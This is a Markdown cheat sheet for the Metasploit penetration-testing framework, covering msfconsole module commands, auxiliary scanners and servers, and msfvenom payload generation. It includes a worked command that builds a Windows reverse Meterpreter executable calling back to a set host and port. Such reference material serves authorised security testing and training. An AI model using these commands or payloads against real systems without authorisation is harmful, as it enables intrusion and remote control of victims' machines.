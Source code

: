 # Metasploit Cheat Sheet

***
Metasploit Project is a computer security project which provide information about vulnerabilities. Help in the development of penetration tests and IDS signatures, metasploit is very popular tool used by pentest experts.

### Metasploit :

- ###### Search for module:

```
msf > search [regex]
```

- ###### Specify and exploit to use:

```
msf > use exploit/[ExploitPath]
```

- ###### Specify a Payload to use:

```
msf > set PAYLOAD [PayloadPath]
```

- ###### Show options for the current modules:

```
msf > show options
```

- ###### Set options:

```
msf > set [Option] [Value]
```

- ###### Start exploit:

```
msf > exploit 
```
***

### Useful Auxiliary Modules


- ###### Port Scanner:

```
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 192.168.10.0/24
msf > run
```

- ###### DNS Enumeration:

```
msf > use auxiliary/gather/dns_enum
msf > set DOMAIN target.tgt
msf > run
```

- ###### FTP Server:

```
msf > use auxiliary/server/ftp
msf > set FTPROOT /tmp/ftproot
msf > run
```

- ###### Proxy Server:

```
msf > use auxiliary/server/socks4
msf > run 
```
***

# msfvenom :

msfvenom this is tool can be used to generate Metasploit payloads as standalone files and optionally encode them. This tool replaces `msfpayload` and `msfencode` tools. Run with ‘'-l payloads’ to get a list of payloads.

```
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```


- ##### Example: Reverse Meterpreter payload as an executable and redirected into a file:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=192.168.1.1
LPORT=4444 > met.exe
```

Format Options **(specified with –f)** --help-formats – List available output formats

- `-exe` – Executable
- `-pl` – Perl
- `-rb` – Ruby
- `-raw` – Raw shellcode
- `-c` – C code
